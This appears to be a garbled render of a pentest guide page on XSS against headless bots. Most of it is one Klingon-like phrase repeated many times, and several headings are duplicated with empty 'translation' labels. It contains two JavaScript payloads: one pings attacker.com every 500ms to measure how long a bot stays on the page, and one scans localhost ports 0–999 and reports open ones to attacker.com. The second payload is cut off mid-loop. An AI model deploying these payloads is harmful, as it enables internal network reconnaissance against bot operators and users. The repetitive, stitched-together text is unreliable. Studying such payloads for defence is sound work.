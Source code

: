 vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej vItlhutlh. Bot jImej
```markup
<!--Make the bot send a ping every 500ms to check how long does the bot wait-->
<script>
let time = 500;
setInterval(()=>{
let img = document.createElement("img");
img.src = `https://attacker.com/ping?time=${time}ms`;
time += 500;
}, 500);
</script>
<img src="https://attacker.com/delay">
```
### Port Scan

#### tlhIngan Hol Translation:

### Port Scan

#### tlhIngan Hol Translation:

### Port Scan

#### tlhIngan Hol Translation:

### Port Scan

#### tlhIngan Hol Translation:
```markup
<!--Scan local port and receive a ping indicating which ones are found-->
<script>
const checkPort = (port) => {
fetch(`http://localhost:${port}`, { mode: "no-cors" }).then(() => {
let img = document.createElement("img");
img.src = `http://attacker.com/ping?port=${port}`;
});
}

for(let i=0; i<1000; i++) {
checkPort(i);
```
